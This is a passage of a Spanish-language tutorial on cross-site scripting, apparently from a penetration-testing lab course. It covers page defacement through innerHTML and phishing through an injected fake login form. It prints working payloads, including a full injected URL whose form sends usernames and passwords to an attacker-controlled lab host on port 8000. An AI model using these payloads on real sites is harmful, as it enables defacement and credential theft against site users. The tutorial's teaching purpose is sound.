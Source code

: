 Cambiaremos todo el código HTML del cuerpo principal, utilizando innerHTML, de la siguiente manera:

```javascript
document.getElementsByTagName('body')[0].innerHTML = "New Text"
```

Podemos especificar el elemento body con document.getElementsByTagName(“body”), y al especificar [0], estamos seleccionando el primer elemento body, lo que debería cambiar todo el texto de la página web. También podemos usar jQuery para lograr lo mismo. 

Sin embargo, antes de enviar nuestro paylaod y realizar un cambio permanente, debemos preparar nuestro código HTML por separado y luego usar innerHTML para establecer nuestro código HTML en el código fuente de la página.

```html
<script>document.getElementsByTagName('body')[0].innerHTML = '<center><h1 style="color: white">HACKED</h1><p style="color: white">by <img src="https://example.com/images/logo.svg" height="25px" alt="hacked"> </p></center>'</script>
```


## Phishing

Los ataques de phishing suelen utilizar información que parece legítima para engañar a las víctimas y que envíen su información confidencial al atacante. 

Una forma común de ataques de phishing XSS es mediante la inyección de formularios de inicio de sesión falsos que envían los datos de inicio de sesión al servidor del atacante, que luego pueden utilizarse para iniciar sesión en nombre de la víctima y obtener el control de su cuenta y su información confidencial.

Por ejemplo en la siguiente web podemos explotar el siguiente parámetro para modificar la web.

[image](/assets/img/posts/XSS/20251019205201.png)

Una vez tengamos el login inyectado podemos eliminar el campo de la imagen.

```javascript
document.getElementById('urlform').remove();
```

Para eliminar y añadir el formulario a la vez lo concatenamos:

```javascript
document.write('<h3>Please login to continue</h3><form action=http://OUR_IP><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');document.getElementById('urlform').remove();
```

O podemos separar cada JS en diferentes etiquetas `<script>`:

``http://10.129.184.42/phishing/index.php?url="><script>document.write('<h3>Please login to continue</h3><form action=http://10.10.15.191:8000><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form></script><script>document.getElementById('urlform').remove()</script><!--``

Indicamos en la URL donde se enviará el formulario la IP de nuestra maquina y el puerto en cuestión donde serviremos el PHP, en este caso el 8000.
